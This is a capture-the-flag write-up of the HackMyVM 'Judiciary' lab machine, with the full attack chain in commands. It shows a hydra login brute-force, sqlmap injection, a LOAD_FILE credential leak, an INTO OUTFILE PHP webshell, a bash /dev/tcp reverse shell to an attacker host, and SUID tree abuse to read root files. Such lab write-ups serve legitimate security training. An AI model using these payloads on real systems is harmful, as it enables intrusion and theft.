





# Judiciary — HackMyVM Writeup

**Platform:** HackMyVM  
**Difficulty:** Easy/Medium  
**OS:** Linux (Ubuntu)  
**Date:** 2026-11-26

---

## Attack Chain Summary

```
Recon → Brute-force login (cewl + hydra) → SQLi (sqlmap) →
LOAD_FILE (config leak) → INTO OUTFILE (webshell) → Reverse Shell →
SUID tree → /proc/1/root → User & Root flags
```

---

## 1. Reconnaissance

### Host Discovery

```bash
sudo netdiscover -r 172.20.10.0/24
```

Target: `172.20.10.4`

### Port Scan

```bash
nmap -sV -sC -p- -T4 --min-rate 5000 172.20.10.4
```

**Open ports:**
- `22/tcp` — OpenSSH 10.2p1
- `80/tcp` — Apache 2.4.66 — "The Judiciary Portal"

### Directory Enumeration

```bash
ffuf -u http://172.20.10.4/FUZZ -e .php,.html,.txt \
  -w /home/shalopai/Desktop/directory-list-lowercase-2.3-medium.txt
```

**Noteworthy findings:**
- `/login.php` — login form with username/password
- `/dashboard.php` — redirects (requires auth)
- `/uploads/` — writable upload directory (key for RCE later)
- `/db.php` — returns empty body (PHP config file, readable via SQLi)


---

## 2. Initial Access — Brute-force Login

### Step 1: Build a themed wordlist

The machine is called "Judiciary" and the username is `BAR-1337-NL` (BAR = bar association). Filter rockyou by legal theme keywords:

```bash
grep -iE 'law|court|justice|lawyer|judge|legal|jury|verdict|crime|criminal|attorney|bar|order|sentence' \
  /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt > rock_theme.txt
```

### Step 2: Identify the correct fail string

Manually submit bad credentials on `/login.php`. Error message:

> **Error: Invalid BAR-ID identifier or password verification failed.**

### Step 3: Brute-force with Hydra

```bash
hydra -l BAR-1337-NL -P rock_theme.txt \
  172.20.10.4 -s 80 http-post-form \
  '/login.php:username=^USER^&password=^PASS^:F=Invalid BAR-ID identifier or password verification failed'
```

**Result:** `BAR-1337-NL : thebestlawyer`

> **Lesson:** Always copy the exact fail string from the page. A mismatch causes Hydra to report false positives or miss valid credentials entirely.

---

## 3. SQLi Exploitation

After logging in, the dashboard at `/dashboard.php?search=1` is injectable.


### Step 1: Run sqlmap

```bash
sqlmap "http://172.20.10.4/dashboard.php?search=1" \
  --cookie="PHPSESSID=<your_session>" \
  --batch --dbs
```

**Found databases:** `judiciary_db`, `information_schema`

### Step 2: Dump staff table and crack hashes

```bash
sqlmap "http://172.20.10.4/dashboard.php?search=1" \
  --cookie="PHPSESSID=<your_session>" \
  -D judiciary_db -T staff --dump --batch
```

sqlmap detects SHA-256 hashes and saves them to a temp file. Crack with John:

```bash
john --format=raw-sha256 \
  --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt \
  /tmp/sqlmap.../sqlmaphashes-*.txt
```

**Cracked:** `BAR-1337-NL : thebestlawyer` (same password as login)

### Step 3: Read server files via LOAD_FILE

```
x' UNION SELECT LOAD_FILE('/var/www/html/db.php'),0x2d-- -
```

**Result — `db.php` contents:**
```php
define('DB_HOST', 'localhost');
define('DB_USER', 'court_web');
define('DB_PASS', 'CourtDBPassword2026!');
define('DB_NAME', 'judiciary_db');
```

MySQL user `court_web` has the `FILE` privilege and `secure_file_priv` is empty — perfect for writing files.

---

## 4. RCE via SQLi — INTO OUTFILE Webshell

### Step 1: Convert PHP shell to hex (bypass quote filtering)

```bash
printf '<?php system($_GET["cmd"]); ?>' | xxd -p | tr -d '\n'
# 3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e
```

### Step 2: Write shell to uploads directory

The uploads path is visible after login: `/uploads/ZA-2026-4401/BAR-1337-NL/judiciary/`

Inject via the search parameter:

```
x' UNION SELECT 0x3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e,0x2d
INTO OUTFILE '/var/www/html/uploads/ZA-2026-4401/BAR-1337-NL/judiciary/pwn2.phtml'-- -
```

### Step 3: Get a reverse shell

Start a listener:
```bash
nc -lvnp 4244
```

Trigger the shell (URL-encoded bash reverse shell):
```
http://172.20.10.4/uploads/ZA-2026-4401/BAR-1337-NL/judiciary/pwn2.phtml?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/172.20.10.5/4244+0>%261'
```

**Shell received as `www-data`.**

> **Key conditions for SQLi → RCE:**
> 1. SQL injection exists
> 2. DB user has `FILE` privilege
> 3. `secure_file_priv` is empty
> 4. Web server path is known (leaked via `LOAD_FILE`)

---

## 5. Privilege Escalation — SUID `tree`

### Step 1: Find SUID binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

Unusual SUID binaries:
- `/usr/bin/tree` — tree with SUID is non-standard
- `/usr/lib/cargo/bin/sudo` — fake sudo
- `/usr/bin/sudo.ws` — fake sudo

### Step 2: Read files via tree --houtro / --hintro

`tree` supports `--hintro` and `--houtro` flags (HTML mode) that insert an arbitrary file as the HTML header/footer. With SUID, it reads files as root.

**Read user flag:**
```bash
/usr/bin/tree -H . --houtro=/home/suedoe/user.txt /home/suedoe
```

**Find root files:**
```bash
/usr/bin/tree -a -p -u -s /proc/1/root/root
```

`/proc/1/root/` is a symlink to the root filesystem via PID 1 (init/systemd), always running as root. Bypasses direct `/root/` access restrictions.

**Read root flag:**
```bash
/usr/bin/tree -H . --hintro=/proc/1/root/root/root.txt --noreport /tmp
```

---

## 6. Flags

| Flag | Value |
|------|-------|
| User | `HMV{perjury_in_the_database}` |
| Root | `HMV{supreme_court_overruled}` |

---

## Key Takeaways

1. **Fail string matters** — Wrong `F=` in Hydra causes false positives or misses. Always verify manually.
2. **Themed wordlists** — `grep -iE` на rockyou по теме машины резко сужает пространство паролей.
3. **SQLi → RCE** — `INTO OUTFILE` + знание пути веб-директории (через `LOAD_FILE`) = webshell.
4. **SUID enumeration** — Нестандартные SUID бинари → читай `--help`, ищи флаги которые принимают путь к файлу.
5. **`/proc/1/root/`** — Обход ограничений на `/root/` через procfs PID 1.